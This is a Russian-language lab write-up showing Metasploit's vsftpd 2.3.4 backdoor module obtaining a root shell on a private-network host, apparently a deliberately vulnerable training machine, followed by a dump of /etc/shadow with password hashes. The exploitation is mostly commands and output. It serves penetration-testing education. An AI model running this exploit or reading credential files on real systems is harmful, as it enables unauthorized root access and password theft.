 ##### vsftpd

Среди выявленных сервисов попробуем проэксплуатировать уязвимость в ftp сервере - vsftpd

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 192.168.122.138
rhost => 192.168.122.138
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.122.138:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.122.138:21 - USER: 331 Please specify the password.
[+] 192.168.122.138:21 - Backdoor service has been spawned, handling...
[+] 192.168.122.138:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.122.102:38313 -> 192.168.122.138:6200) at 2025-03-15 05:21:15 +0300

whoami
root
```
После применения эксполита мы получили shell сессию с root привелегиями. В частности смогли получить информацию из файла `/etc/shadow`

```text
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
```
